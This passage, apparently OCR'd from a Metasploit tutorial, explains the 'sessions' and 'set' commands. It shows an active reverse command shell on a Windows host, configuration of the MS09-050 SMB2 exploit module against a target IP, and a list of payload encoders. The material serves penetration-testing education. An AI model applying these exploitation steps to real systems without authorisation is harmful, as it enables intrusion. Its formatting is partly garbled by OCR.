 You can use the `-l` parameter to see the list of all currently existing sessions.

```bash
msf exploit**(**3proxy**)** > sessions -l

Active sessions
**===============**

  Id  Description    Tunnel
  --  -----------    ------
  1   Command shell  192.168.1.101:33191 -> 192.168.1.104:4444
To interact with a given session, you just need to use the ‘-i’ switch followed by the Id number of the session.

msf exploit**(**3proxy**)** > sessions -i 1
> Starting interaction with 1...

C:WINDOWSsystem32>
```

## set

The `set` command is used to edit the options and parameters that need to be set for the module you have selected and activated with the `use` command.

```bash
msf auxiliary**(**ms09_050_smb2_negotiate_func_index**)** > set RHOST 172.16.194.134
RHOST **=>** 172.16.194.134
msf auxiliary**(**ms09_050_smb2_negotiate_func_index**)** > show options

Module options **(**exploit/windows/smb/ms09_050_smb2_negotiate_func_index**)**:

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  172.16.194.134   yes       The target address
   RPORT  445              yes       The target port
   WAIT   180              yes       The number of seconds to wait **for **the attack to complete.

Exploit target:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 **(**x86**)**
```

While you can make the necessary adjustments with the `set` command, you may also want to see the list of `encoders` that the active module can use.

```bash
msf  exploit**(**ms09_050_smb2_negotiate_func_index**)** > show encoders

Compatible Encoders
**===================**

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
   generic/none                             normal     The "none" Encoder
   x86/alpha_mixed                          low        Alpha2 Alphanumeric Mixedcase Encoder
   x86/alpha_upper                          low        Alpha2 Alphanumeric Uppercase Encoder
   x86/avoid_utf8_tolower                   manual     Avoid UTF8/tolower
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
```